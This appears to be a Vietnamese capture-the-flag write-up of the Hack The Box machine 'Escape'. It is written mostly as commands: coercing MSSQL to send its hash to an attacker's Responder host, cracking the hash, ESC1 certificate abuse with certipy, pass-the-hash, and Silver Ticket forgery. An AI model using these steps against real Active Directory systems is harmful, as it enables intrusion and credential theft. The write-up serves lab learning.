

# Escape

## Synopsis

Escape là machine Windows Active Directory có độ khó medium bắt đầu bằng share SMB mà người dùng guest có thể tải xuống file PDF nhạy cảm. Bên trong file PDF có thông tin xác thực tạm thời để truy cập dịch vụ MSSQL đang chạy trên machine. Attacker có thể buộc dịch vụ MSSQL xác thực và capture hash. Hóa ra dịch vụ đang chạy dưới tài khoản user và hash có thể crack. Có một tập hợp thông tin xác thực hợp lệ, attacker có thể thực thi lệnh trên machine bằng WinRM. Khi enum machine, file log sẽ tiết lộ thông tin xác thực cho user `ryan.cooper`. Khi enum thêm, sẽ tiết lộ rằng có một Certificate Authority và một template certificate dễ bị tấn công ESC1, nghĩa là user sử dụng template này có thể yêu cầu certificate cho bất kỳ người dùng nào khác trên domain bao gồm Domain Administrator. Do đó, bằng cách khai thác lỗ hổng ESC1, attacker có thể lấy được certificate hợp lệ cho tài khoản Administrator và sau đó sử dụng certificate đó để lấy hash của user administrator.

### Skills Required

- Enum

- Windows Active Directory

- Microsoft SQL server

### Skills Learned

- Kerberos Authentication

- Tấn công ESC1

- NTLM Authentication

## Enumeration 

### Nmap

```
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.202 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.11.202
```


Output Nmap ban đầu cho thấy rất nhiều port mở, cho biết machine sử dụng Active Directory. Nhận thấy MSSQL đang lắng nghe trên cổng 1433. Ngoài ra, theo output Nmap, có hai tên hostname hợp lệ cho machine. Một tham chiếu đến domain, `sequel.htb` và tên còn lại, có thể, tham chiếu đến Domain Controller `dc.sequel.htb`. Do đó, sửa đổi file host cho phù hợp:

```
echo "10.10.11.202 sequel.htb dc.sequel.htb" | sudo tee -a /etc/hosts
```

Hơn nữa, nhiều port này liên quan đến xác thực Kerberos. Nếu sử dụng xác thực Kerberos sau này, phải nhớ rằng theo Nmap, có sự khác biệt 8 giờ giữa máy local và máy remote. Kerberos chỉ hoạt động nếu sự khác biệt thời gian là 5 phút hoặc ít hơn.

### SMB

Vì machine này không có trang web nên có thể bắt đầu liệt kê bằng cách xem SMB.

```
smbclient -L \\\\sequel.htb\\
```


Khi được yêu cầu nhập mật khẩu, chỉ cần nhấn "Enter" và có thể list các share. Tất cả các share trông khá standard, ngoại trừ share có tên là `Public`. Kiểm tra xem có thể kết nối với share này không.

```
smbclient \\\\sequel.htb\\public
```


Không chỉ có thể kết nối đến share này mà còn có thể list các file bên trong. Tìm thấy một file PDF có tên là `SQL Server Procedures.pdf`. Tải file này xuống bằng lệnh `get`.

```
get "SQL Server Procedures.pdf"
```


Điều thú vị là bên trong file PDF, có thể tìm thấy thông tin đăng nhập để truy cập vào phiên bản MSSQL nhận thấy trong quá trình enum ban đầu.

```
impacket-mssqlclient PublicUser:GuestUserCantWrite1@sequel.htb
```


## Foothold

Sử dụng thông tin xác thực đã xác định, có thể kết nối với máy chủ MSSQL. Khi tìm kiếm xung quanh, không thể tìm thấy bất cứ điều gì thú vị. Tuy nhiên, có thể thử buộc dịch vụ SQL xác thực với máy local và capture hash. Nếu dịch vụ SQL đang chạy dưới dạng tài khoản user, thì khả năng cao là hash đã capture sẽ có thể crack được.

Trước hết, thiết lập `Responder`.

```
responder -I tun0 -v
```

Sau đó, yêu cầu SQL list các file trên máy local bằng đường dẫn UNC (Universal Naming Convention).

```
EXEC MASTER.sys.xp_dirtree '\\10.10.14.14\test', 1, 1
```

Nhận được hash trên responder cho user `sql_svc`.


May mắn thay, `sql_svc` có vẻ là một tài khoản normal user. Vì vậy, copy hash đã capture vào một file có tên là `hash` và thử crack nó bằng `john`.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```


Hash đã crack thành công và có mật khẩu dạng plaintext `REGGIE1234ronnie` cho user `sql_svc`.

Thử xác thực với tư cách là user `sql_svc` qua WinRM. Sử dụng evil-winrm.

```
evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie
```


## Lateral Movement

Xác thực thành công với tư cách là user `sql_svc` nhưng vẫn chưa thể lấy được flag `user.txt`. Nhìn xung quanh hệ thống, thấy có một user tên là `Ryan.Cooper`.

```
ls C:\users
```


Có thể đây là user giữ user flag. Thực hiện thêm một số phép enum trên máy, định vị được log file cho dịch vụ MSSQL.

```
type C:\sqlserver\Logs\ERRORLOG.bak
```


Có vẻ như user `ryan.cooper` đã cố gắng xác thực dịch vụ bằng mật khẩu `NuclearMosquito3`, nhưng thông tin đăng nhập của anh ta đã bị từ chối. Người dùng thường trộn lẫn mật khẩu của họ trên nhiều dịch vụ. Với điều này trong đầu, thử xác thực `ryan.cooper` qua WinRM bằng mật khẩu này.

```
evil-winrm -i sequel.htb -u ryan.cooper -p NuclearMosquito3
```


Có một shell với tư cách là user `ryan.cooper` và user flag có thể được tìm thấy trong `C:\Users\Ryan.Cooper\Desktop\user.txt`.

## Privilege Escalation

Tại thời điểm này, cần tìm cách nâng cao đặc quyền. Nhìn lại kết quả enum ban đầu từ Nmap, có thể thấy rất nhiều kết quả liên quan đến certificate. Đây là dấu hiệu mạnh mẽ cho thấy có một Certificate Authority đang chạy. Có thể sử dụng Certify để liệt kê các cấu hình sai có thể xảy ra trong Active Directory Certificate Services.

Có thể tải file thực thi trực tiếp từ `evil-winrm`.

```
upload Certify.exe
```

Bây giờ, có thể bắt đầu enum các Certificate Authority có thể có.

```
.\Certify.exe cas
```




Có một CA trên remote machine. Có thể sử dụng Certify một lần nữa để enum các certificate dễ bị tấn công

```
.\Certify.exe find /vulnerable
```


Thực sự có một template dễ bị tấn công có tên là `UserAuthentication`. Cụ thể, `Authenticated User` có thể enroll cho template này và vì `msPKI-Certificate-Name-Flag` có mặt và chứa `ENROLLEE_SUPPLIES_OBJECT` nên template dễ bị tấn công bởi kịch bản ESC1 (https://m365internals.com/2022/11/07/investigating-certificate-template-enrollment-attacks-adcs/). Về cơ bản, điều này cho phép bất kỳ ai enroll vào template này và chỉ định một Subject Alternative Name tùy ý. Nghĩa là, có thể xác thực với tư cách là Domain Administrator bằng cách khai thác đường dẫn tấn công này.

Để khai thác điều này, sử dụng certipy.

```
certipy req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication
```


```
Lưu ý: Nếu gặp lỗi The NetBIOS connection with the remote host timed out., chạy lại lệnh.
```

Bây giờ đã có certificate cho administrator, có thể sử dụng certipy một lần nữa để lấy Ticket Granting Ticket (TGT) và trích xuất hash NT cho user này. Vì bước này yêu cầu một số tương tác Kerberos, cần đồng bộ hóa đồng hồ với thời gian của remote machine trước khi có thể tiếp tục.

```
sudo ntpdate -u dc.sequel.htb
```

Bây giờ, có thể tiếp tục.

```
certipy auth -pfx administrator.pfx 
```


Cuối cùng, có thể truyền hash qua WinRM và xác thực với tư cách là user administrator.

```
evil-winrm -i sequel.htb -u administrator -H a52f78e<SNIP>58f4ee
```


Root flag có thể được tìm thấy trong `C:\Users\Administrator\Desktop\root.txt`.

## Alternative Solution

Cách thiết lập machine này cho phép có một giải pháp thú vị khác. Cụ thể hơn, phương pháp tiếp cận thay thế này yêu cầu phải đạt đến ít nhất điểm có mật khẩu plaintext cho user `sql_svc`. Bước này cực kỳ quan trọng vì đây là tài khoản người dùng chạy dịch vụ MSSQL có nghĩa là các ticket để truy cập dịch vụ này sẽ được mã hóa bằng mật khẩu của user `sql_svc`.

Theo logic của cuộc tấn công Silver Ticket (https://www.netwrix.com/silver_ticket_attack_forged_service_tickets.html), có thể làm giả một ticket thay mặt cho người dùng `Administrator` để truy cập dịch vụ MSSQL. Thật không may, không có Service Principal Name (SPN) nào được đặt cho phiên bản dịch vụ này nên Kerberos không thể tạo ra một Service Ticket hợp lệ để có thể thử và thay đổi.

Trong trường hợp này, có thể sử dụng `ticketer` từ impacket. Script này có lợi thế là việc tạo ticket được thực hiện local, nghĩa là không cần phải liên hệ với Kerberos trên remote machine và yêu cầu Service Ticket. Hơn nữa, phải nhớ rằng dịch vụ chịu trách nhiệm xác thực các ticket đã trình bày chứ không phải Kerberos. Vì vậy, ngay cả khi Kerberos không biết rằng MSSQL đang chạy dưới `sql_svc` nếu tạo được ticket hợp lệ local cho user Administrator, vẫn có thể truy cập dịch vụ với tư cách là user này.

Trước hết, cần tìm ra domain SID. Có nhiều cách để lấy thông tin này vì có một cặp thông tin xác thực hợp lệ cho user `sql_svc` nhưng cách dễ nhất là thông qua WinRM.

```
evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie
```

Sau khi đăng nhập, có thể lấy được SID của user này.

```
Get-LocalUser -Name $env:USERNAME | Select sid
```


Có SID cho user. Domain SID chỉ là SID của user không có phần cuối cùng, đó sẽ là:

```
S-1-5-21-4078382237-1492182817-2568127209
```

Sau đó, trước khi có thể tạo một ticket, cần lấy NT hash cho mật khẩu của user `sql_svc`. Có thể sử dụng công cụ trực tuyến này (https://codebeautify.org/ntlm-hash-generator).

```
1443EC19DA4DAC4FFC953BCA1B57B4CF
```

Tham số `spn` là cần thiết để tạo ra một ticket hợp lệ nhưng có thể đặt bất cứ thứ gì vì nó không được thiết lập ngay từ đầu.

```
nonexistent/DC.SEQUEL.HTB
```

Bây giờ, có thể tạo một ticket cho dịch vụ MSSQL.

```
impacket-ticketer -nthash 1443EC19DA4DAC4FFC953BCA1B57B4CF -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip dc.sequel.htb -spn nonexistent/DC.SEQUEL.HTB Administrator
```

```
Lưu ý rằng để bước này và các bước sau hoạt động bình thường, cần đồng bộ hóa đồng hồ local với đồng hồ của DC bằng cách chạy sudo ntpdate -u dc.sequel.htb .
```


Bây giờ, export ticket và xác thực với dịch vụ bằng xác thực Kerberos.

```
export KRB5CCNAME=Administrator.ccache

impacket-mssqlclient -k dc.sequel.htb
```


Bây giờ, có thể sử dụng các truy vấn sau để đọc `user.txt` cũng như `root.txt`.

```
SELECT * FROM OPENROWSET(BULK N'C:\users\ryan.cooper\desktop\user.txt', SINGLE_CLOB) AS Contents

SELECT * FROM OPENROWSET(BULK N'C:\users\administrator\desktop\user.txt', SINGLE_CLOB) AS Contents
```